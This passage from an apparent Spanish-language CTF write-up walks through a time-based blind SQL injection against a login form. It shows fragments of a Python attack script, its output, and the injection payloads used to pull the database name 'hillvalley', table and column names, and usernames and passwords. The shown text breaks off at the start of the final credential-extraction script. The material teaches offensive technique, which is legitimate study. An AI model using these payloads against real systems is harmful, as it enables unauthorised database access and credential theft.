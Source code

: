```python

    database = (c(f"{data}", "cyan"))
    print(c(f"\n\nDatabase: {database}\n", "green"))

def main():
    makeSQL()

if __name__ == '__main__':
    main()
```

Logrando obtener el nombre de la base de datos:
```bash
[*] Iniciando Ataque...

Database: hillvalley
```

**Nota** Solo tenemos que ir modificando la variable **sql_payload** para ir extrayendo la demas informacion
**Payload** para extraer los nombres de las tablas en la base de datos
```bash
sql_payload = f"admin' or if(substring((select group_concat(table_name) from information_schema.tables where table_schema='hillvalley'),{position},1)='{character}', sleep(5), 0)-- -&password=admin"
```

Ahora tenemos el siguiente resultado:
```bash
[*] Iniciando Ataque...

Tablenames: users
```

Ahora necesitamos saber las columnas para esa tabla **users**
```bash
sql_payload = f"admin' or if(substring((select group_concat(column_name) from information_schema.columns where table_schema='hillvalley' and table_name='users'),{position},1)='{character}', sleep(1), 0)-- -&password=admin"
```

Tenemos el siguiente resultado:
```bash
[*] Iniciando Ataque...

Columns: id,username,password
```

Ahora solo necestiamos extreaer los datos, **username** y **password**, Este es el script final en python para obtener las credenciales:
**Nota** para el valor de la password, Modificamos todo el script para  usar valor en **Decimal**, Ya que en **SQL** por defecto no es sencible a las mayusculas o minusculas
es deicr que: **( A=a -> True )** y para evitar esto, usamos los valores en decimales
```python
#!/usr/bin/env python3

# Librerias
import sys
import os
import signal
import requests
import string
from termcolor import colored as c 
import time

# Funcioes personalizadas
def ctrl_c(sig, frame):
    print(c(f"\n[!] Saliendo...", "red"))
    sys.exit(1)
```